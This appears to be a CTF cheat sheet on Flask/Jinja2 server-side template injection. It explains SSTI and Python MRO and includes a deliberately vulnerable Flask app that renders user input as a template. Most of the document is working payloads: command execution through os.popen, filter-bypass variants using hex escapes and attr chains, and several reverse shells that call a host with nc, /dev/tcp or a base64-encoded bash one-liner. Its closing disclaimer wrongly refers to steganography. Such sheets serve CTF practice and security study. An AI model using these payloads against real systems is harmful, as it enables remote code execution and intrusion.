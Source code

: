 ```yaml
---
title: FLASK JINJA PENTESTING
date: 2023-07-12 09:00:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


Flask is a micro web framework written in Python.

# Common Directories

```
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

# Server-Side Template Injection (SSTI)

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like :

```py
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the ``{{ip}}`` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

So when the power to create and render templates is given to a user, it can lead to full access to the system, as the user running the webserver.

# What is ‘MRO’?

MRO (Resolution Order method) is the order in which Python is looking for methods in class hierarchy. When an object of calling method, python will look for the compliance method in the sequence determined by MRO. This MRO sequence determines the order of inheritance of the class to be sought by Python.

Example : 

```py
class A:
    def process(self):
        print('A process()')

class B:
    def process(self):
        print('B process()')

class C(A, B):
    def process(self):
        print('C process()')

class D(C, B):
    pass

obj = D()
obj.process()

print(D.mro())
```

In this example, when `object D` calls the process method (), Python will look for the method in the MRO sequence. The output of the `print (D.Mro ())` will provide a MRO sequence for class D :

```py
[<class '__main__.D'>, <class '__main__.C'>, <class '__main__.A'>, <class '__main__.B'>, <class 'object'>]
```

This MRO sequence shows that the process `method ()` will be sought first in class `D`, then in class `C`, followed by `A, B`, and Object (basic class for all classes in Python).

By using MRO, we can understand the sequence of class inheritance and `identify which classes will be used in certain situations`. This is useful especially when using multiple inheritance or in the context of the construction of SSTI content with `Jinja2`.

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        return "Hi!!!"

if __name__ == "__main__":
    app.run(debug=True)
```

# Installation

* sudo apt-get install python-pip
* pip install flask --user
* python app.py


Sometimes, website may filter specific characters.
If so, URL encode the payload or convert to HEX.
In addition, it’s recommended to send requests using Burp Suite because web browsers automatically update the payload.

`Payload`
```py
{{ 4*2 }}
{{ config.items() }}
# Remove curly brackets
{2*3}
2*3
```

If success, you may be able to exploit with `OS command injection`.

```py
{{ __import__('os').system('ping -c 1 10.0.0.1') }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

# RCE bypassing 

```py
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

#  waf blocks “.”:
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}

# waf blocks “.” and “_”:
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}

# Bypassing the blocks on “.”, “_”, “[]” and “|join”
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

# Reverse Shell
{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}

# Filter bypass - Base64 encode
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDQ0IDA+JjEi" | base64 -d | bash').read() }}
```

Alternatively, we can create a shell script to reverse shell, then execute it in the server side.
For example, create a shell script named `revshell` in local machine.

```py
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

Then host it and start a listener for receiving an incoming request.

```py
# Local terminal 1
python3 -m http.server 8000

# Local terminal 2
nc -lvnp 4444
```

# DISCLAIMER
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet is not representative of modern steganography/seganalysis techniques, and its content does match with the creation of an interesting challenges 😉.
```